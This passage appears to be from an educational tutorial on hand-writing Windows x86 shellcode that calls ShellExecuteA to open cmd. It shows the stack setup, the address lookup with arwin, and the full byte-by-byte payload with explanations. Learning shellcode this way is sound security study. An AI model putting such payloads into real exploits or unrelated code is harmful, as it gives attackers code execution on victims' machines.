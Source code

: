 ### push strings
> now we have to push the string 'open' 'cmd'
as we know, we cannot push the strings directly, first we need to assign the string to a register and then push the register. we already did that previously with ebx (cmd) and ecx (open).
```
"\x53" // push ebx
"\x51" // push ecx
```

- we need to push the last zero, sice eax value is still 0, we can push the eax:
```
"\x50" // push eax => pushes 0
```

- almost done, we need to search For the address of ShellExecuteA function.
to find the address we will use arwin:
```
	arwin.exe Shell32.dll ShellExecuteA
	'ShellExecuteA is located at 0x762bd970 in Shell32.dll'
```

- we will move the address to a register, and then call the register.
we will not use eax as zero anymore, so we can move to that.
dont forget to reverse the address, cause we are in windows (little-endian)
```
"\xB8\x70\xD9\x2b\x76" // mov eax, 762bd970 - address of ShellExecuteA
"\xff\xD0"                       // call eax
```


## final shellcode
```
"\x68\x63\x6d\x64\x00"
"\x8B\xDC"
"\x6A\x00"
"\x68\x6f\x70\x65\x6e"
"\x8B\xCC"
"\x6A\x03"
"\x33\xc0"
"\x50"
"\x50"
"\x53"
"\x51"
"\x50"
"\xB8\x70\xD9\x2b\x76"
"\xff\xD0"
```

### shellcode explained
```
   → "\x68\x63\x6d\x64\x00"   // PUSH "cmd" and terminates the string with \x00 = now its 4 bytes
   → "\x8B\xDC"                       // MOV EBX, ESP => puts the pointer to the text "cmd" into ebx
   →  "\x6A\x00"                      // PUSH 0: string terminator For 'open'
   → "\x68\x6f\x70\x65\x6e"   // PUSH "open" onto the stack
   → "\x8B\xCC"                      // MOV ECX, ESP => puts the pointer to the text 'open' into ecx
   → "\x6A\x03" // PUSH 3 => the last argument
   → "\x33\xc0"  // xor eax, eax => zero out the eax register
   → "\x50"        // push eax => pushes 0 = the second to last argument
   → "\x50"        // push eax => pushes 0 = the third to last argument
   → "\x53" // push ebx => push the pointer to string 'cmd'
   → "\x51" // push ecx => push the pointer to string 'open'
   → "\x50" // push eax => pushes 0 = push the first argument
   → "\xB8\x70\xD9\x2b\x76" // mov eax, 762bd970 = move ShellExecuteA into eax
   → "\xff\xD0"                       // call eax = call the function ShellExecuteA
```